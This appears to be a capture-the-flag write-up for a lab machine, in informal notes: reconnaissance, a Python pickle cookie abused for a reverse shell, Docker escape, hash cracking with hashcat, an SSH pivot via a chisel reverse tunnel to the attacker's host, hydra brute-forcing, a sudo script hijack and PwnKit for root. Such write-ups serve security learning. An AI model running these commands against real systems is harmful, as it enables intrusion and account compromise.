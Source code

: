 Started with a nmap scan
```
5003 filemaker WSGIServer 0.2 CPython 3.8.6
```
Webserver is using `Set-Cookie` and setting the whole `csrf` token 
Can make admin account but when going to the admin page says we do not have permission
under the share section we can upload images
Gobuster scan some paths are in the code but don't exist 
```
/admin/login
/about
/share
/accounts/login
/account/profile
```
possible usernames 
```
ramsey
wan
oliver
```
When going to the search section of the website we sets a cookie for are search term and we can use python pickle to decode it and encode a reverse shell or just to see if it will ping us back we can get a ping back so lets go for a reverse shell need to use a get request and change the revshell to `/bin/sh` now we have access to the server as `root` but looks like were in a docker container so we need to escape for it looking around the server we find a db `db.sqlite3` and there some users in there we can try to crack the hashes and while that's going we can check for open ports
`nc -zV 172.17.0.1 1-65535`
`hashcat -m 10000 hash rockyou.txt` 
One users got cracked `testing:la....5` 
From are host enumeration eailer we could see ssh was open on the internal host using a old version of `chisel` on are host we run and when we run it need to have same version on both machines
`sudo chisel server -p 1880 --reverse` 
On server 
`./chisel client 10.13.8.255:1880 R:22:172.17.0.1:22`
But the login does not work and we did not find anything to hint to the only user on the box `ramsey` so were going to try and crack it with hydra and we got the password pretty quickly
`ramsey:123....8` 
And now we have access to the ssh server and the user.txt running `sudo -l` we can run the vuln.py script as `oliver` we can change the name of this script and then make a new one then put a reverse shell and run the script with sudo
`sudo -u oliver /usr/bin/python /home/ramsey/vuln.py` and start a listener on are host and now we are oliver now to get root to the host machine I ran linpeas and found its vuln to PwnKit so I just used that 